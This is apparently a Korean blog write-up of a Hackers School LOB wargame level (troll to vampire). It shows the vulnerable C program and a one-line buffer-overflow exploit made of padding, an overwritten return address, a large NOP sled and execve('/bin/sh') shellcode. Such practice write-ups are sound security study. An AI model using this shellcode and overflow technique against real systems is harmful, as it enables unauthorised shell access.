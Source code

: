 ```yaml
---
date: '2022-10-21'
before : '2022-10-10'
after : '2022-10-22'
title: '시스템 해킹(24) : FTZ LOB LEVEL 9'
categories: ['C-SEC', 'KOR', 'webhack']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

물론 HTB를 시작하긴 했지만, pwn공부도 천천히, 또 꾸준하게 해 나갈 생각이다. 결국 HTB에서도 pwn 기법을 사용할 일도 있거니와, 어차피 내년 초 CCNA 딸 때까지는 계속해서 양쪽의 기법에 익숙해지고, 또 여러가지 머신을 풀어나가며 해킹 프로세스도 손에 익히는 시간을 가질 예정이다. 


### 1. Level 9 : Troll -> Vampire

```
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}

```

```
./vampire `python -c 'print "D"*44+"\x28\xf3\xfe\xbf"+" "+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

 ---
## Source

- 해커스쿨 FTZ
- Me!
